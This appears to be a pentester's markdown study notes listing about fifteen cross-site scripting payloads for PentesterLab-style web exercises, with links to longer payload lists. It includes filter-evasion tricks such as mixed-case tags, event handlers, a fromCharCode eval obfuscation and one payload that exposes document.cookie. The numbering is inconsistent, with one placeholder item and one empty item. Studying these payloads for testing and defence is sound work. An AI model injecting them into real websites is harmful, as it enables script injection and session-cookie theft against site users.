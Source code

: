 
### 10 Top XSS Payloads 


1- `<script>alert("1")</script>`  


2- `<sCript> alert("bypassing simple filters") </sCRIpt>` 


3- PentesterLab 


4- `<a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>`


5- `<img src='zzzz' onerror='alert(1)' />` 


6- `<div style="color:red" onclick=alert('xss')>`  | Coloring is adding to see the div


7- `<div style="color:green" onmouseover=alert('xss') >`


8- `<script>console.log("test")</script>` |  __Tests if word script is allowed but alert is not__


9- <img src="cc" onerror=eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))> | __alert is not allowed__ 


10- `</script><script>alert('XSS');</script>` | __escaping script tags to excute the payload__


11- `';alert('xss');//`  | The apostrophe character is used to escape in PHP htmlentities __'__


12- `' onerror=alert('xss');> ` &nbsp;  &nbsp; |  &nbsp; use this if the vulnerability in the image


13- `#<script>alert(1)</script>` &nbsp;  &nbsp;  |  &nbsp;  __exploiting the DOM xss with hash.substring__

14- `#javascript:alert(1)`  &nbsp;  &nbsp; |  &nbsp;  __exploiting the DOM xss with hash.substring__

15- `" onmouseover="alert(1)` &nbsp;  &nbsp; |  &nbsp;

16-

### Extra Resources:

- [Convert Characters to ASCII Codes](https://www.browserling.com/tools/text-to-ascii)

- [Complete List of XSS Payloads:](https://github.com/nairuzabulhul/RoadMap/blob/master/PTP/Web_Security/XSS_Payload_List.txt)

- [ABC of XSS](https://quanyang.github.io/the-abcs-of-xss/)

- [Infosec Notes](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)

- 

